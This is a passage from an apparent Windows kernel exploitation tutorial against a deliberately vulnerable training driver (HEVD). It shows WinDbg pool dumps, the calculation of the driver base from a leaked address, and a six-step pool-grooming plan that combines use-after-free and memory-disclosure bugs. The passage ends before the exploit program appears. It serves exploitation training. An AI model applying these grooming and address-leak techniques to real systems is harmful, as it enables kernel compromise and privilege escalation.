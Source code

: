 ```
 ffffe78d80eca380 size:   80 previous size:    0  (Allocated)  Even
 ffffe78d80eca400 size:   80 previous size:    0  (Free)       Even
 ffffe78d80eca480 size:   80 previous size:    0  (Free)       Even
 ffffe78d80eca500 size:   80 previous size:    0  (Free)       Even
 ffffe78d80eca580 size:   80 previous size:    0  (Allocated)  Even
 ffffe78d80eca600 size:   80 previous size:    0  (Allocated)  Even
 ffffe78d80eca680 size:   80 previous size:    0  (Free)       Even
 ffffe78d80eca700 size:   80 previous size:    0  (Free)       Even
 ffffe78d80eca780 size:   80 previous size:    0  (Allocated)  Even
 ffffe78d80eca800 size:   80 previous size:    0  (Allocated)  Even
 ffffe78d80eca880 size:   80 previous size:    0  (Allocated)  Even
 ffffe78d80eca900 size:   80 previous size:    0  (Allocated)  Even
 ffffe78d80eca980 size:   80 previous size:    0  (Free)       Even
 ffffe78d80ecaa00 size:   80 previous size:    0  (Free)       ....
 ffffe78d80ecaa80 size:   80 previous size:    0  (Allocated)  Even
 ffffe78d80ecab00 size:   80 previous size:    0  (Allocated)  Even
 ffffe78d80ecab80 size:   80 previous size:    0  (Free)       ....
 ffffe78d80ecac00 size:   80 previous size:    0  (Free)       ....
 ffffe78d80ecac80 size:   80 previous size:    0  (Free)       ....
 ffffe78d80ecad00 size:   80 previous size:    0  (Free)       Even
 ffffe78d80ecad80 size:   80 previous size:    0  (Free)       ....
 ffffe78d80ecae00 size:   80 previous size:    0  (Free)       Even
 ffffe78d80ecae80 size:   80 previous size:    0  (Allocated)  Even
*ffffe78d80ecaf00 size:   80 previous size:    0  (Allocated) *Hack
		Owning component : Unknown (update pooltag.txt)
 ffffe78d80ecaf80 size:   80 previous size:    0  (Free)       Even
```

The address we want is `0xfffff80552098130`. Subtracting `0x88130` gives us the module base:
```WinDbg
1: kd> ? fffff805`52098130-0x88130
Evaluate expression: -8773242388480 = fffff805`52010000
1: kd> lmDvmKlfhHEVD
Browse full module list
start             end                 module name
fffff805`52010000 fffff805`5209c000   KlfhHEVD   (private pdb symbols)  c:\users\telac\desktop\hevd - samples\klfhhevd\x64\release\KlfhHEVD.pdb
    Loaded symbol image file: KlfhHEVD.sys
    Image path: KlfhHEVD.sys
    Image name: KlfhHEVD.sys
    Browse all global symbols  functions  data  Symbol Reload
    Timestamp:        Sun Jul 20 19:55:24 2025 (687D2D8C)
    CheckSum:         00011867
    ImageSize:        0008C000 
    Translations:     0000.04b0 0000.04e4 0409.04b0 0409.04e4
    Information from resource tables:
```

Now is when we need to make use of these two vulnerable functions and combine the exploitation into the following program, which will be responsible for:
1. Filling the pool with objects to eliminate holes
2. Allocating gaps to establish the area of influence
3. Releasing the objects allocated in the previous step intermittently (even indexes)
4. Allocating the UaF objects that contain the information we’re interested in
5. Releasing the objects allocated in the previous step intermittently (odd indexes)
6. Allocating the memory disclosure objects in a way that allows us to read and check whether the object in front has the **Hack** `pooltag`, in order to read the first address of the block immediately after the `_POOL_HEADER`
